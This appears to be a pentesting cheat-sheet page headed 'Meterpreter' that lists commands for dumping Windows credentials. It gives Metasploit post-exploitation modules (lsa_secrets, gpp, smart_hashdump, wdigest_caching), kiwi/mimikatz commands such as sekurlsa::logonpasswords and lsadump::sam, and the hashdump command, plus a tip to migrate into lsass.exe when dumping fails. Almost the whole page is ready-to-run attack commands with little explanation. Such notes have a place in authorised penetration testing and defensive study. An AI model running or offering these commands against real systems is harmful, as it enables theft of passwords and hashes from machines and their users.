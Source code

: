 # Meterpreter

{% hint style="info" %}
#### Some times dumping the hashes with `hashdump` or `creds_all` commands wont work. in this case, consider migrating to lsass.exe process and try dumping again.
{% endhint %}

### <mark style="color:orange;">Meterpreter Modules</mark>

```
post/windows/manage/wdigest_caching

post/windows/gather/lsa_secrets

post/windows/gather/credentials/gpp

post/windows/gather/lsa_secrets

post/windows/gather/smart_hashdump
```

### <mark style="color:orange;">kiwi</mark>

```
load kiwi
creds_all
kiwi_cmd "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam"
```

### <mark style="color:orange;">hashdump</mark>

```
meterpreter > hashdump
```
